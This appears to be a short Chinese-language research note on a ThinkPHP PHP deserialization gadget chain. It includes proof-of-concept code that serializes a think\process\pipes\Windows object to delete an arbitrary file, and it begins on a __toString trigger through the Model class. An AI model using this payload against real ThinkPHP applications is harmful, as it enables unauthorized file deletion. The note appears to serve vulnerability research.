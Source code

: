 


## 触发
先生成反序列化并url编码的字符串后再在think文件中执行`unserialize(urldecode())`
### 任意文件删除
```php
<?php
namespace think\process\pipes{
    class Windows{
        public function __construct(){
            $this->files = ["/tmp/test/123"];
        }
    }

}

namespace{
    $payload = new think\process\pipes\Windows();
    echo urlencode(serialize($payload));
}
```
### 触发__toString
由于`think\model\concern\Conversion()`是由trait定义的
![](./pics/15.png)
在写poc时需要注意找到继承此的类`think/Model.php`